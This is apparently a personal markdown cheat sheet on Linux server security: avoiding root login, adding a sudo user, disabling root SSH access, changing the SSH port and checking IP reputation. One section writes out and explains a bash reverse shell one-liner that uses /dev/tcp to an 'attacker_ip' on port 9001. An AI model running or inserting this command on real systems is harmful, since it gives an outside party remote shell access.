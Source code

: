 # Cyber

## Why Using the Root User for Logging into a Server is Not Recommended
Using the root user to log into a server is generally not recommended due to several security and operational risks:

Common Knowledge of Root User:

Every hacker knows about the root user. If root login is enabled, hackers are one step closer to executing a brute-force attack.
Full Access and Risk of Errors:

When using the root user, you have full access to perform any action. This increases the likelihood of mistakenly executing harmful commands.
Security Risks with Certain Programs:

Running some programs as the root user poses a security risk because it grants excessive access, which is not desirable.
Difficulty in Tracking Actions:

If your server is accessed by multiple users and they all use the root account, it becomes difficult to determine who executed which command. This makes tracking down a user who performed a malicious action more challenging.

## Create user & add to sudo group & test
```bash
# create user
adduser <new user>
usermod -aG sudo <new user>
# test the root priviliege
su - user
sudo ls /root
# test ssh
ssh <new user>@ip_address_of_server
```
## ban root login to server
```bash
# modify ssh config on server
sudo nano /etc/ssh/sshd_config
# set PermitRootLogin to no

sudo service ssh restart

# run these on server
sudo rm -rf /root/.ssh
sudo passwd --lock root
```
after these following shouldnt be execute
```bash
ssh root@ip_address_of_server
```

## Change default port of ssh

- allow transfer on <port> : random number greater than 1024 (less are preserved)
```bash
sudo ufw allow <port>/tcp
```

- modify ssh config
```bash
sudo nano /etc/ssh/sshd_config
# change the port to new port 
#Port 5522
sudo systemctl restart sshd
```
connect via new port 
```bash
ssh -p <new port> <new user>@remote_host_or_ip
```

## create reverse shell
```bash
bash -i >& /dev/tcp/<dest_ip>/<port_ip> 0>&1
```
- bash -i: This launches a new interactive Bash shell. The -i flag makes the shell interactive, meaning it will read commands from standard input and provide output to standard output.

- >& /dev/tcp/attacker_ip/9001: This part redirects both the standard output (stdout) and standard error (stderr) of the Bash shell to a TCP connection. Specifically:

- &> is a redirection operator that combines both stdout and stderr.
/dev/tcp/attacker_ip/9001 is a special file in some Unix-like systems that represents a TCP connection. This means that the Bash shell's output will be sent over a network connection to the IP address attacker_ip on port 9001.

- 0>&1: This part redirects standard input (stdin) from the same source as standard output (stdout). In other words, it makes the shell read its input from the same TCP connection that it's writing its output to.


## IP reputation scanner
There are many open-source databases out there, like AbuseIPDB, and Cisco Talos Intelligence, where you can perform a reputation and location check for the IP address